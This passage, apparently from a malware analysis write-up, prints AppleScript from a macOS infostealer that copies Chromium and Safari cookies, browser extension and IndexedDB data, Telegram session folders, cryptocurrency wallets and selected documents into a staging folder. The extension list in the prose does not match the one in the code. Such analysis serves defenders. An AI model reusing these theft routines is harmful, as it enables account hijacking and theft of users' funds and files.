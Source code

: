 ```
					repeat with CFile in chromiumFiles
						set readpath to (item 2 of chromium & currentItem & CFile)
						if ((CFile as string) is equal to "/Network/Cookies") then
							set CFile to "/Cookies"
						end if
						if ((CFile as string) is equal to "/Local Extension Settings/") then
							grabPlugins(readpath, savePath & currentItem, pluginList, false)
						else if (CFile as string) is equal to "/IndexedDB/" then
							grabPlugins(readpath, savePath & currentItem, pluginList, true)
						else
							set writepath to savePath & currentItem & CFile
							readwrite(readpath, writepath)
						end if
					end repeat
				end if
			end repeat
		end try
	end repeat
end chromium
```

Other than browsers, the malware can be seen attempting to extract Telegram and cryptocurrency wallet data too.
```
on telegram(writemind, library)
		try
			GrabFolder(library & "Telegram Desktop/tdata/", writemind & "Telegram Data/")
		end try
end telegram
on deskwallets(writemind, deskwals)
	repeat with deskwal in deskwals
		try
			GrabFolder(item 2 of deskwal, writemind & item 1 of deskwal)
		end try
	end repeat
end deskwallets
```

The malware then utilises the Finder application to extract the Safari cookie file, macOS Notes database and files with specific extensions (txt, docx, rtf, doc, wallet, keys, key) stored under the User Desktop and Document directories. The extracted files are stored in a directory called "FileGrabber".
```
on filegrabber(writemind)
	try
		set destinationFolderPath to POSIX file (writemind & "FileGrabber/")
		mkdir(destinationFolderPath)
		set extensionsList to {"pdf"," docx"," doc"," wallet"," keys"}
		set bankSize to 0
		tell application "Finder"
			try
				set safariFolderPath to (path to home folder as text) & "Library:Cookies:"
				duplicate file (safariFolderPath & "Cookies.binarycookies") to folder destinationFolderPath with replacing
				set name of result to "saf1"
			end try
			try
				set safariFolder to ((path to library folder from user domain as text) & "Containers:com.apple.Safari:Data:Library:Cookies:")
				try
					duplicate file "Cookies.binarycookies" of folder safariFolder to folder destinationFolderPath with replacing
				end try
```